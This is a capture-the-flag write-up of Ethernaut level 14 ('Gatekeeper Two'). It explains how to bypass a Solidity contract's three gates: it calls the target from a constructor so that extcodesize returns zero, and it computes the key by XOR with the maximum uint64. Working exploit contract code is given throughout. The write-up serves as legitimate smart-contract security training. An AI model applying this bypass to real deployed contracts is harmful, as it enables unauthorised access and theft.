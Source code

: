 # Level 14: Gatekeeper Two

This is the level 14 of OpenZeppelin [Ethernaut](https://ethernaut.openzeppelin.com/) web3/solidity based game.

## Pre-requisites
- [Difference between `tx.origin` and `msg.sender`](https://ethereum.stackexchange.com/questions/1891/whats-the-difference-between-msg-sender-and-tx-origin)
- [Solidity Assembly](https://docs.soliditylang.org/en/v0.4.23/assembly.html) & [caller & extcodesize](https://docs.soliditylang.org/en/v0.4.23/assembly.html#opcodes) opcodes.

## Hack
Given contract:

```
contract GatekeeperTwo {

  address public entrant;

  modifier gateOne() {
    require(msg.sender != tx.origin);
    _;
  }

  modifier gateTwo() {
    uint x;
    assembly { x := extcodesize(caller()) }
    require(x == 0);
    _;
  }

  modifier gateThree(bytes8 _gateKey) {
    require(uint64(bytes8(keccak256(abi.encodePacked(msg.sender)))) ^ uint64(_gateKey) == uint64(0) - 1);
    _;
  }

  function enter(bytes8 _gateKey) public gateOne gateTwo gateThree(_gateKey) returns (bool) {
    entrant = tx.origin;
    return true;
  }
}
```

`player` has to set itself as `entrant`, like the previous level.

We are going to implement `GatePassTwo` contract to attack:
```
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract GatePassTwo {
    ...
}
```

### gateOne
This is exactly same as level 4. An intermediary contract (`GatePassTwo` here) will be used to call `enter`, so that `msg.sender` != `tx.origin`.

### gateTwo
Second check involves solidity assembly code - specifically `caller` and `extcodesize` functions. `caller()` is nothing but sender of message i.e. `msg.sender` which will be address of `GatePassTwo`.
`extcodesize(addr)` returns the size of contract at address `addr`. So, `x` is assigned the size of the contract at `msg.sender` address. But size of a contract is always going to be non-zero. And to pass check, `x` must zero!

Here's the trick. See the footer note of Ethereum [Yellow Paper](https://ethereum.github.io/yellowpaper/paper.pdf) on page 11:<br>
_"During initialization code execution, EXTCODESIZE on the address should return zero, which is the length of the code of the account..."_

Rings some bells? During creation/initialization of the contract the `extcodesize()` returns 0. So we're going to put the malicious code in `constructor` itself. Since it is the `constructor` that runs during initialization, any calls to `extcodesize()` will return 0. Update `GatePassTwo` accordingly (ignore `key` for now):

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract GatePassTwo {
    constructor(address _gateAddr) public {
        bytes8 key = bytes8(uint64(address(this)));
        address(_gateAddr).call(abi.encodeWithSignature("enter(bytes8)", key));
    }
```
This will pass `gateTwo`.

### gateThree
Third check is basically some manipulation with `^` XOR operator.

As is visible from the equality check:
```
uint64(bytes8(keccak256(abi.encodePacked(msg.sender)))) ^ uint64(_gateKey) == uint64(0) - 1
```

`_gateKey` must be derived from `msg.sender` (in `GatekeeperTwo`), which is same as `address(this)` in our `GatePassTwo`.

The `uint64(0) - 1` on RHS is max value of `uint64` integer (due to underflow). Hence, in hex representation:
```
uint64(0) - 1 = 0xffffffffffffffff
```

By nature of XOR operation:
```
If, X ^ Y = Z
Then, Y = X ^ Z
```

Using this XOR property, it can be deduced that:
```
uint64(_gateKey) == uint64(bytes8(keccak256(abi.encodePacked(address(this))))) ^ uint64(0xffffffffffffffff)
```

So, correct `key` can be calculated in solidity as:
```solidity
bytes8 key = bytes8(uint64(bytes8(keccak256(abi.encodePacked(address(this))))) ^ uint64(0xffffffffffffffff))
```

Final update to `GatePassTwo`:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract GatePassTwo {
    constructor(address _gateAddr) public {
        bytes8 key = bytes8(uint64(bytes8(keccak256(abi.encodePacked(address(this))))) ^ uint64(0xffffffffffffffff));
        address(_gateAddr).call(abi.encodeWithSignature("enter(bytes8)", key));
    }
}
```

Now deploy `GatePassTwo` with address of `GatekeeperTwo`, which will result in execution of malicious `constructor` code. And that will eventually register `player` as `entrant`.

Passed!


_Learned something awesome? Consider starring the [github repo](https://github.com/theNvN/ethernaut-openzeppelin-hacks)_ 😄

_and following me on twitter [here](https://twitter.com/the_nvn)_ 🙏

